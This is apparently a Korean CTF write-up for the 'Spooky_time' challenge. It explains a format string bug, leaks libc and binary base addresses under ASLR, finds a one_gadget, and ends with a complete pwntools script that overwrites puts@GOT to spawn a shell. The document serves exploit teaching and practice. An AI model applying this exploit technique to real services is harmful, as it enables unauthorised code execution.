

# Spooky_time


## 개요
 - aslr이 활성화되어있는 format string bug 문제입니다.
 - 큰 어려움은 없지만 libc base offset 과 binary base offset 을 구하는데 debug과정이 필요합니다.

## Tree
```
whoami@choijunwon:~/Spooky Time$ tree
.
└── challenge
    ├── flag.txt
    ├── flag.txt:Zone.Identifier
    ├── glibc
    │   ├── ld-linux-x86-64.so.2
    │   ├── ld-linux-x86-64.so.2:Zone.Identifier
    │   ├── libc.so.6
    │   └── libc.so.6:Zone.Identifier
    ├── spooky_time
    └── spooky_time:Zone.Identifier
```
## Protect


```arch``` : ```64bit-little```

```aslr``` : ```enable```

```Relro``` : ```disable```

```stack``` : ```enable```

```nx``` : ```enable```

```pie``` : ```enable```

 - aslr 이 활성화되있어 바이너리 실행 주소가 유동적으로 실행될때마다 랜덤으로 매핑되며
 - Relro가 비활성화되있어 global offset table overwrite가 가능하다.

## Source

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format[12]; // [rsp+4h] [rbp-14Ch] BYREF
  char v6[312]; // [rsp+10h] [rbp-140h] BYREF
  unsigned __int64 v7; // [rsp+148h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  puts("It's your chance to scare those little kids, say something scary!\n");
  __isoc99_scanf("%11s", format);
  puts("\nSeriously?? I bet you can do better than ");
  printf(format);
  puts("\nAnyway, here comes another bunch of kids, let's try one more time..");
  puts("\n");
  __isoc99_scanf("%299s", v6);
  puts("\nOk, you are not good with that, do you think that was scary??\n");
  printf(v6);
  puts("Better luck next time!\n");
  return v7 - __readfsqword(0x28u);
}
```

 - 코드를 살펴보면 다음과 같다.
```
__isoc99_scanf("%11s", format);
  puts("\nSeriously?? I bet you can do better than ");
  printf(format);
```
 - 처음 입력을때 11s 만큼 받고 format이라는 변수에 저장후 format형식이 지정되지않은 printf를 사용해 출력한다.
 - 이때 format타입을 지정하지않아 format string bug가 발생한다.

 - 두 번째 부분이다.
```
__isoc99_scanf("%299s", v6);
  puts("\nOk, you are not good with that, do you think that was scary??\n");
  printf(v6);
```
 - 위와 마찬가지지만 입력받을때 좀 더 크게 입력을받으며 마찬가지로 fsb가 발생한다.
 - 큰 입력값으로 인하여 좀더 광범위한 포인트 탐색 가능

## 시나리오 구성
 - 시나리오 구성은 다음과 같습니다.
 - aslr을 off한 상태에서 offset을 구한후 다시 aslr을 활성화하여 실제로 그 주소가 offset을 찾을만한 인자인지 검증합니다.
 - 다음으로 puts_got 주소를 bin_base 에 더하고 libc 파일에서 찾은 onegadget을 libc_base + 해줍니다.
 - 두번째 입력값에 pwntools fmtstring payload 를 활용하여 8바이트만큼 puts_got 주소에 onegadget 주소를 덮어 씌웁니다.
 - exploit

## Debug
 - 일단 aslr을 off합니다.    
 - 이후 break point를 main에 설정하고 start & vmmap을 확인해보면 aslr이 off상태일때의 binary & libc 의 start point와 end point를 확인할수 있습니다.


 - aslr이 disable일때의 주소는 알고있지만 enable 상태일때의 주소는 유동적으로 변한다고 말했습니다.
 - 그렇다면 저흰 fsb를 이용하여 libc 와 binary 주소를 참조하고있는 주소를 활용하여 offset을 구한후 exploit에 활용할수 있습니다.
 - gdb) continue


 - %p 를 활용하여 입력버퍼부터의 입력 오프셋까지의 주소들을 출력합니다.
 - 저희가 찾아야하는 값은 다음과 같습니다.
```
binary : 0x555555554000 <= address <= 0x55555555a000
libc   : 0x7ffff7d94000 <= address <= 0x7ffff7faf000
```

 - 찾아야하는 주소가 많으므로 python을 이용하여 정리합니다.
```
arr = [0x1,0x1,0x7ffff7ea8a37,0x3f,0x7ffff7fad280,0x3100000000,0x1,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x7025,0x1,0x1,0x2fba4605d1957a00,0x1,0x7ffff7dbdd90,0x1,0x5555555553c0,0x100000000,0x7fffffffe318,0x1,0x250dd4cc862f2f0c,0x7fffffffe318,0x5555555553c0,0x555555557b80,0x7ffff7ffd040,0xdaf22b33420d2f0c,0xdaf23b7b3ca52f0c,0x1,0x1,0x1,0x1,0x1,0x2fba4605d1957a00,0x1,0x7ffff7dbde40,0x7fffffffe328,0x555555557b80,0x7ffff7ffe2e0,0x1,0x1,0x555555555160,0x7fffffffe310,0x1,0x1,0x555555555185,0x7fffffffe308,0x1c,0x1,0x7fffffffe557,0x1,0x7fffffffe58b,0x7fffffffe59b,0x7fffffffe5b8,0x7fffffffe5e8,0x7fffffffe5f8,0x7fffffffe624,0x7fffffffe633,0x7fffffffe642,0x7fffffffe64b,0x7fffffffe65d,0x7fffffffe66a,0x7fffffffe68c,0x7fffffffec7b]

bin_start = 0x555555554000
bin_end = 0x55555555a000

libc_start = 0x7ffff7d94000
libc_end = 0x7ffff7faf000


for i in range(0,len(arr)):
    if hex(bin_start) <= hex(arr[i]) <= hex(bin_end):
        print(f'found [bin]! {i+1} : {hex(arr[i])}')
    if hex(libc_start) <= hex(arr[i]) <= hex(libc_end):
        print(f'found [lib]! {i+1} : {hex(arr[i])}')
```

 - 실행 결과는 다음과 같습니다.
```
found [lib]! 3 : 0x7ffff7ea8a37
found [lib]! 5 : 0x7ffff7fad280
found [lib]! 49 : 0x7ffff7dbdd90
found [bin]! 51 : 0x5555555553c0
found [bin]! 57 : 0x5555555553c0
found [bin]! 58 : 0x555555557b80
found [lib]! 69 : 0x7ffff7dbde40
found [bin]! 71 : 0x555555557b80
found [bin]! 75 : 0x555555555160
found [bin]! 79 : 0x555555555185
```
 - 가장 인근 오프셋에 있는 값의 offset을 구했을때 결과는 다음과 같습니다.
```
>>> print(0x7ffff7ea8a37 - 0x7ffff7d94000)
1133111
>>> print(0x5555555553c0 - 0x555555554000)
5056
```
 - aslr disable 상태일때 libc에서 offset 3 address 까지의 offset은 ```1133111``` binary에서 offset 51 address 까지의 offset은 ```5056``` 인것입니다.

 - 하지만 확실하지는 않습니다 이유는 누차 설명했던 aslr 때문입니다. 그래서 다시 debug를 통하여 aslr enable 상태일때 offset을 확인해봐야합니다.

 - aslr on > vmmap



 - base주소가 변한것을 알수있습니다.
 - (이미지가 삭제되어 대충 다른이미지로 대체했습니다.)
```
binary start : 0x000055c783584000
libc start   : 0x00007f120d004000
```
 - continue
```
It's your chance to scare those little kids, say something scary!

%3$p.%51$p

Seriously?? I bet you can do better than
0x7f120d118a37.0x55c7835853c0
Anyway, here comes another bunch of kids, let's try one more time..
```
```
[3] : 0x7f120d118a37
[51] : 0x55c7835853c0
```
 - 3번째 offset과 51번째 offset 의 주소를 뽑아와서 다시 offset을 구합니다.
```
>>> print(0x7f120d118a37-0x00007f120d004000)
1133111
>>> print(0x55c7835853c0-0x000055c783584000)
5056
```
 - offet이 같은것을 확인할수있습니다. 이로서 저희는 프로그램이 실행중일때 libc_base와 binary_base를 구할수있습니다.
 ```
 libc_base : offset_addr[3] - 1133111
 binary_base : offset_addr[51] - 5056
 ```
 - 이후 exploit을 위한 oneshot gadget & puts got 을 구해야합니다.
 - 두 값을 구하기위해 저희는 base주소를 얻은것입니다.

 - oneshto gadget
```
whoami@choijunwon:~/spooky_time/test/challenge/glibc$ one_gadget libc.so.6
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebd52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xebda8 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdb3 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

 - one_gadget 을 이용하여 제공되는 libc 파일에서 oneshot address 를 가져옵니다. 단 여기서 중요한점은 rsi = NULL 이면 안됩니다.
 - 딱히 정리된 문서를 찾지못하여 뇌피셜이긴하지만 아마 rsi가 첫번째 인자를 가르켜서 그런것같습니다. 
 - 그러니 전 ```0xebcf1``` 이 주소를 사용하도록 하겠습니다.

 - 두번째는 puts_got addr 입니다.

 - puts@got
```
whoami@choijunwon:~/spooky_time/test/challenge$ objdump -R spooky_time | grep "puts"
0000000000003da0 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```

 - objdump를 활용하여 base주소에서부터 got주소까지의 offset 을 확인할수있었고 실제 got주소는 다음과 같습니다.
```
binary_base + 0x3da0
```

 - 이제 모든값을 구하였고 exploit을 해야합니다.
 - 최종 exploit 시나리오는 다음과 같습니다.
```
1번째 입력값에서 %3$p,%51$p 를 입력하여
3번째와 51번째 주소를 가져옵니다.
3번째값 -1133111
5번째값 - 5056
위 연산을 통해 각 base주소를 구합니다
이후 puts_got 에 oneshot 주소를 덮어 puts@plt가 global table offset 을 호출할때 one_gadget이 실행되도록 설정합니다.
```

## exploit
```
from pwn import *

p = process("spooky_time")

context.arch = 'amd64'

p.recvuntil("scary!\n")
p.sendline(b"%3$p,%51$p")

p.recvuntil("than")
p.recvline()


libc,el = p.recvline().decode().split(",")
libc = int(libc,16)
el = int(el,16)

libc_base = libc - 1133111
elf_base = el - 5056
puts_got = elf_base + 0x3da0
ones = libc_base + 0xebcf1

# gdb.attach(p)

payload = fmtstr_payload(8, {puts_got:ones})

p.recvuntil("time..")
p.sendline(payload)
p.interactive()

```
